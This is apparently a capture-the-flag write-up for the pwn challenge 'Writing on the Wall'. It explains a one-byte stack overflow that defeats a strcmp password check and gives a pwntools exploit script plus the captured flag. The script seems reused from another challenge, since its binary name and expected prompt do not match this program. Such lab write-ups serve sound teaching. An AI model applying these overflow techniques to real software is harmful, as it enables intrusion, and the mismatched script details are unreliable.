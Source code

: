 # Writing on the Wall

Difficulty: Very Easy

## Description

As you approach a password-protected door, a sense of uncertainty envelops you — no clues, no hints. Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. Could this be the elusive password, waiting to unveil the door’s secrets?

## Protections (checksec)

```
$ checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

As we can see: All protections are enabled.

## The program’s interface

```
〰③ ╤ ℙ Å ⅀ ₷
The writing on the wall seems unreadable, can you figure it out?
>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[-] You activated the alarm! Troops are coming your way, RUN!
```

## Disassembly (ghidra)

```
undefined8 main(void) {
  int iVar1;
  long in_FS_OFFSET;
  char local_1e [6];
  undefined8 local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = 0x2073736170743377;
  read(0,local_1e,7);
  iVar1 = strcmp(local_1e,(char *)&local_18);
  if (iVar1 == 0) {
    open_door();
  }
  else {
    error("You activated the alarm! Troops are coming your way, RUN!\\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The program is pretty straightforward. It reads our `7-byte` input at `local_1e` and then it compares it with `local_18` which is the string "w3tpass ".

The string is `8-bytes` long but we can only enter 7 bytes, meaning we will never be able to pass the comparison.

The `local_1e` variable is stored on `6-byte`, which means we have a `1-byte` overflow to `local_18`.

## Solution (pwntools)

We store a null byte at the start of `local_1e` and overflow another null to `local_18`, so `strcmp()` will compare two empty strings.

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'regularity')

context(terminal=['tmux', 'split-window', '-h'])

host = args.HOST or '10.10.10.10'
port = int(args.PORT or 1337)


def start_local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    if args.REMOTE:
        return start_remote(argv, *a, **kw)
    else:
        return start_local(argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc/'

io = start()

io.recv()
io.sendline(b'\\x00' * 7)
io.recvuntil(b'next one: ')
flag = io.recv()

pwn.warning('Flag: ' + flag.decode('utf-8'))
```

```
>> [!] Flag: HTB{3v3ryth1ng_15_r34d4bl3}
```

## Skills Learned

- buffer overflow
- strcmp() C function
- null strings